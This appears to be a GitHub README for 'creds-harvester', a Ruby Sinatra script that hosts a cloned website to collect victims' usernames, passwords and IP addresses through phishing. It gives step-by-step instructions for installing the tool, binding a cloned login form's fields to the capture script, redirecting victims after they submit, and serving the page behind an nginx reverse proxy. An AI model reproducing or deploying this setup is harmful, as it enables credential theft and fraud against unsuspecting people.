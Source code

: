 # creds-harvester
A simple, yet highly customizable, script to use with cloned website for phishing and credentials harvesting.

## Table of Contents
- [Stored data](#Stored-data)
- [Requirements](#Requirements)
  - [Install gems](#Install-gems)
- [How to use?](#How-to-use)
  - [Step #1](#Step-1)
  - [Step #2](#Step-2)
  - [Step #3](#Step-3)
  - [Step #4](#Step-4)
  - [Step #5 (optional - recommended)](#Step-5-optional---recommended)

## Stored data
Collected credentials will be stored in `credentials.txt` file. The `credentials.txt` is not accessable publicly as there is no route to it, test it.

**Stored Data**
- Collection time
- Username
- Password
- Remote Client's IP address

**Format**
```
YY-MM-DD HH:MM | USERNAME : PASSWORD : CLIENT_IPADD
```

## Requirements 
This script uses Sinatra framework as web application server. I also recommend to use `rerun` command to run the code as `rerun` watches the chanes on the file and restart it again, so you don't have to interrupt the service.

### Install gems
```
gem install sinatra rerun bundle
```

## How to use?

#### Step #1
Put your cloned website under `view` directory

#### Step #2 
Find the input id from within the cloned login form you want to use (case sensitive).
Example: 
```html
<!DOCTYPE html>
<html>
<body>

<h2>HTML Forms</h2>

<form action="/action_page.php">
  Username:<br>
  <input type="text" id="UserName" name="User">
  <br>
  Password:<br>
  <input type="password" id="Password" name="Pass">
  <br><br>
  <input type="submit" value="Submit">
</form> 

</body>
</html>
```

- Parameter id for user is: UserName
- Parameter id for pass is: Password
- Change the "Action" attributes to be `"/login"`  as of we have in the login.rb file
#### Step #3
Go edit `login.rb` script and add the parameter ID's 
```ruby
username = params['UserName']
password = params['Password']
```

**The Main page**

Specify the main page file from within `views` directory. No need to include views directory as it's already included.

```ruby
erb 'PATH/TO/LOGIN_PAGE'.to_sym
```

**Redirect 404**

You can redirect the users to the main page if visited not found pages
```ruby
not_found do
  redirect '/'.to_sym
end
```

**Redirect after submitting**

Also, you can redirect the users once they submit their credentials to the cloned website or other of your choice.
```ruby
redirect 'https://google.com'
```

#### Step #4
Run the script as following 

```
rerun 'ruby login.rb'
```

#### Step #5 (optional - recommended)
Sometime the phishing website is just a small part of many websites on the server. 

If you want to run it with nginx, you can make nginx as reverse proxy for the application. 

1. Run the script (Step #4)

2. Configure nginx 

```
nano /etc/nginx/sites-available/example.com.conf
```
Then add the following and restart nginx service.

```
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name _;
    return 301 https://$host$request_uri;
    location / {
      proxy_pass       http://localhost:8181;
      proxy_set_header Host      $host;
      proxy_set_header X-Real-IP $remote_addr;
    }
}
```


